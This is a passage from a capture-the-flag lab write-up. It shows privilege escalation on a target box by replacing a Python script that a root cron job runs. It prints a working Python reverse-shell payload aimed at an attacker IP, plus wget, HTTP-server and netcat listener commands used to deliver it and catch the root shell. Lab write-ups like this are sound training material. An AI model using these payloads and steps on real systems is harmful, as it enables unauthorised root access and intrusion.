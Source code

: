 Now that we’re running in the context of scriptmanager, we have read/write/execute privileges in the **scripts** directory.

![](https://miro.medium.com/max/665/1*u5zByyu2IyWFR99zfhFBVw.png)

We have two files; one owned by us \(test.py\) and the other owned by root \(test.txt\). Let’s print out the content of test.py.

![](https://miro.medium.com/max/701/1*toBKYot6VKH19KT-Sb24jw.png)

Interesting! It’s a simple python program that writes to the file test.txt. However, we saw in the previous image that test.txt is running as root! Running the python program also seems to be something that is scheduled since the last access time of the test.txt file is very recent. In fact, the script seems to be executing every minute! It’s probably a cron job that is owned by root.

Why is that great news for us? If I change the contents in the test.py file to send a reverse shell, that reverse shell will run as root!

Changing the file on the shell was unbelievably difficult and glitchy. Therefore, I decided to transfer the file from my attack \(kali\) machine.

In the kali machine, create a test.py file and add the reverse shell code to it.

```text
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

Change the file permission to rwx for everyone.

```text
chmod 777 test.py
```

In the same directory, start a simple HTTP server.

```text
python -m SimpleHTTPServer 9005
```

In the target \(bashed\) machine under the **scripts** directory, download the file.

wget [http://10.10.14.30:9005/test.py](http://10.10.14.30:9005/python-reverse-shell.py)

Now, go back to your attack \(kali\) vm and start up a listener with the same port specified in the test.py script.

```text
nc -lnvp 5555
```

Wait for a minute or so for the cron job to execute and voila! We have a shell running as root!

![](https://miro.medium.com/max/585/1*fRXTyuTkIUPS45ALZ6eueQ.png)
